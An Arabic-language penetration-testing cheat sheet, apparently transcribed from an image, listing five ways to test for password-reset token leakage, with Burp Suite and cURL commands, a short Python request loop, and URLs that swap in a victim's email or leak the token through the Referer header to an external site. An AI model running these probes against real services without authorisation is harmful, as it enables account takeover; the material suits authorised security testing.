 
### **ملخص شامل لكل المحاولات والأوامر**

هنا قائمة بكل المحاولات مع الأوامر والأدوات الخاصة بيها لاختبار Password Reset Token Leakage:

1. **تسريب التوكن في ردود السيرفر**:
   - **البيانات**: إيميلات (`test@example.com`).
   - **الأدوات**: Burp Suite، DevTools، cURL.
   - **الأوامر**:
     ```bash
     curl -X POST -d "email=test@example.com" https://target.com/forgot-password
     ```

2. **توكن قابل للتخمين**:
   - **البيانات**: إيميلات (`youremail@example.com`).
   - **الأدوات**: Burp Suite Sequencer، cURL، Python.
   - **الأوامر**:
     ```bash
     curl -X POST -d "email=youremail@example.com" https://target.com/forgot-password
     ```
     ```python
     import requests
     url = "https://target.com/forgot-password"
     emails = ["youremail@example.com"]
     for email in emails:
         response = requests.post(url, data={"email": email})
         print(f"Email: {email}, Response: {response.text[:100]}")
     ```

3. **إعادة استخدام التوكن أو عدم انتهاء صلاحيته**:
   - **البيانات**: رابط التوكن (`https://target.com/reset?token=abc123`).
   - **الأدوات**: متصفح، Burp Suite Repeater، cURL.
   - **الأوامر**:
     ```bash
     curl https://target.com/reset?token=abc123
     ```

4. **التوكن عبر استبدال الإيميل**:
   - **البيانات**: رابط مع إيميل معدل (`https://target.com/reset?token=abc123&email=victim@example.com`).
   - **الأدوات**: متصفح، cURL، Burp Suite.
   - **الأوامر**:
     ```bash
     curl https://target.com/reset?token=abc123&email=victim@example.com
     ```

5. **تسريب التوكن عبر الـ Referer Header**:
   - **البيانات**: رابط إعادة التعيين (`https://target.com/reset?token=abc123`).
   - **الأدوات**: Burp Suite، DevTools.
   - **الأوامر**:
     ```bash
     curl -I -e "https://target.com/reset?token=abc123" https://external.com
     ```
